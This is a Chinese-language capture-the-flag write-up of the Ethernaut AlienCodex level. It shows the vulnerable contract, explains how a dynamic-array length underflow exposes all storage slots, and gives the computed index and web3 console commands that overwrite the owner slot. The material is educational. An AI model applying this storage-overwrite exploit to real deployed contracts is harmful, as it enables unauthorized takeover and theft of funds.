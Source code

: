     import '../helpers/Ownable-05.sol';

    contract AlienCodex is Ownable {

        bool public contact;
        bytes32[] public codex;

        modifier contacted() {
            assert(contact);
            _;
        }
        
        function make_contact() public {
            contact = true;
        }

        function record(bytes32 _content) contacted public {
            codex.push(_content);
        }

        function retract() contacted public {
            codex.length--;
        }

        function revise(uint i, bytes32 _content) contacted public {
            codex[i] = _content;
        }
    }
    ```

要求拿到合约的所有权，这个 owner 的存储是在 Ownable 中定义的，它会和 contact 一起放在 storage 的 slot 0 处，目的就是改变这个位置的值

而 slot 1 的位置开始就是 codex 的存储，先是长度。所以可以通过调用 retract() 函数来使 length 向下溢出变成 2**256-1，也就可以访问到全部的 storage 区域，所以就只需要找到 slot 0 对应的 codex[i] 的 i

因为 codex[i] 实际上是表示 keccak256(slot of codex) + i 处，所以只要令 i = 2\*\*256 - keccak256(slot of codex) 就可以使其变为 2\*\*256，即溢出到 0 的位置

而 codex 的 slot 就是 1，所以只需要计算 2\*\*256 - keccak256(1):
```solidity
contract Exploit {
    function calc() public view returns (bytes32) {
        return keccak256(abi.encode(bytes32(uint(1))));
    }
}
```
得到 0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6，用 2\*\*256 减去它得到 0x4ef1d2ad89edf8c4d91132028e8195cdf30bb4b5053d4f8cd260341d4805f30a

然后更改这个位置到 player 地址就好了（要在地址前面补上一堆 0 和 contact）
```js
> contract.retract()
> await web3.eth.getStorageAt(instance, 0)
'0x000000000000000000000001da5b3fb76c78b6edee6be8f11a1c31ecfb02b272'
> await web3.eth.getStorageAt(instance, 1)
'0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff'
> contract.revise("0x4ef1d2ad89edf8c4d91132028e8195cdf30bb4b5053d4f8cd260341d4805f30a", "0x000000000000000000000001<player address>")
```

---